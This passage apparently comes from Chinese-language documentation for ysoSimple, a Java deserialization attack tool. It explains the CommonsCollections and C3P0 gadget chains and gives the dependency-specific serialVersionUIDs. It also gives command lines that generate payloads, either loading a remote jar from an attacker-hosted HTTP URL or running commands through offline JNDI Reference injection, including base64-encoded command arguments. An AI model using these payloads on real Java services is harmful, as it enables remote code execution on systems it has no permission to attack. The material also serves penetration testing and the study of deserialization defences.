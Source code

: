 ```java
-m YsoAttack -g CommonsCollectionsK3 -a "raw_cmd:calc"
```

这里的raw_cmd参数可以替换为CC链的多种漏洞利用效果参数。

#### C3P0系列

C3P0依赖下的Java反序列化有3种类型的攻击链：关于C3P0的些打法可以先学习：[https://www.cnblogs.com/BUTLER/p/17473487.html](https://www.cnblogs.com/BUTLER/p/17473487.html)

* Jndi 注入：C3P01 生成序列化流比较复杂目前未集成
* URLCLassLoader 远程类加载：C3P02，C3P02_c3p0
* 不出网的Reference注入：C3P03，C3P03_c3p0

另外网上存在两种C3P0依赖，com.mchange:c3p0、c3p0:c3p0。两个C3P0都能够利用但是俩者的SUID不同。

|ysoSimple利用链|需要的依赖|PoolBackedDataSource suid|JndiRefConnectionPoolDataSource|
| -----------------| ------------------| ---------------------------| ---------------------------------|
|C3P02|com.mchange:c3p0|-2440162180985815128L<br />|6594570032105297376L|
|C3P02_c3p0|c3p0:c3p0|7387108436934414104L<br />|5807565096136484351L|

##### C3P02 远程类加载

描述：打一次后因为类已经被加载到内存中，所以如果要切换漏洞利用效果需要重新设定类名和Jar包名

工具：使用方式如下：

```bash
# com.mchange:c3p0
-m YsoAttack -g C3P02 -a "http://127.0.0.1:2333/T32150077959500.jar|T32150077959500"

# c3p0:c3p0
-m YsoAttack -g C3P02_c3p0 -a "http://127.0.0.1:2333/T32150077959500.jar|T32150077959500"
-m YsoAttack -g C3P02_c3p0 -a "http://127.0.0.1:2333/EncryptionUtil.jar|ch.qos.logback.qd.EncryptionUtil"
```

##### C3P03 不出网Reference注入

描述：C3P0利用链可以不出网利用，关于利用链的构造可以学习yulegeyu师傅的[JAVA反序列化之C3P0不出网利用](https://www.yulegeyu.com/2021/10/10/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8/)文章。所以做漏洞利用的时候可引用JNDIAttack模块的Reference本地工厂类。而因为JNDIAttack模块有些Refernce工厂类漏洞利用又是出网的(如:Snakeyaml)，所以实际攻防时还需要注意构造合适的args参数

工具：使用方式如下：参数直接写Reference打法的路由。注意Refernce的最后路径利用参数需要Base64编码，否则生成Payload会有问题。

```python
# com.mchange:c3p0
-m YsoAttack -g C3P03 -a "/TomcatBypass/auto_cmd/calc"
-m YsoAttack -g C3P03 -a "/TomcatBypass/auto_cmd/Y2FsYw=="
-m YsoAttack -g C3P03 -a "/TomcatJDBC/H2CreateAlias/auto_cmd/Y2FsYw=="

# c3p0:c3p0
-m YsoAttack -g C3P03_c3p0 -a "/TomcatBypass/auto_cmd/calc"
-m YsoAttack -g C3P03_c3p0 -a "/TomcatBypass/auto_cmd/Y2FsYw=="
-m YsoAttack -g C3P03_c3p0 -a "/TomcatJDBC/H2CreateAlias/auto_cmd/Y2FsYw=="
```

